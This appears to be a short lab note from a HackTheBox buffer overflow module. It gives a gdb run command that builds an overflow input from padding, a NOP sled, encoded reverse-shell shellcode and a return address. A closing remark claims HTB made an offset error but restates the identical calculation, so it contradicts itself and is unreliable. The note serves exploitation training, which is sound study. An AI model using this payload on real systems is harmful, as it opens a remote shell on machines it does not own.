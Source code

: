 ## Reverse shell
```nasm
run $(python -c 'print "\x55" * 817 + "\x90" * 124 + "\xda\xd6\xd9\x74\x24\xf4\xbd\xad\xe4\xfa\x61\x58\x29\xc9\xb1\x12\x83\xc0\x04\x31\x68\x13\x03\xc5\xf7\x18\x94\x24\x23\x2b\xb4\x15\x90\x87\x51\x9b\x9f\xc9\x16\xfd\x52\x89\xc4\x58\xdd\xb5\x27\xda\x54\xb3\x4e\xb2\x19\x43\xb1\x43\x8e\x41\xb1\x39\x27\xcf\x50\x0d\xd1\x9f\xc3\x3e\xad\x23\x6d\x21\x1c\xa3\x3f\xc9\xf1\x8b\xcc\x61\x66\xfb\x1d\x13\x1f\x8a\x81\x81\x8c\x05\xa4\x95\x38\xdb\xa7" + "\x4c\xd6\xff\xff"')
 ``` 
![Pasted image 20211212185019](https://user-images.githubusercontent.com/87600765/146056009-8a100748-3245-4639-af9c-451f82e6ed79.png)

 I also realized that HTB did an error in their module. They wrote: 
 ```shell-session
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
```
But 1040 - 124 - 95 - 4 = 817 so be sure to put 817.

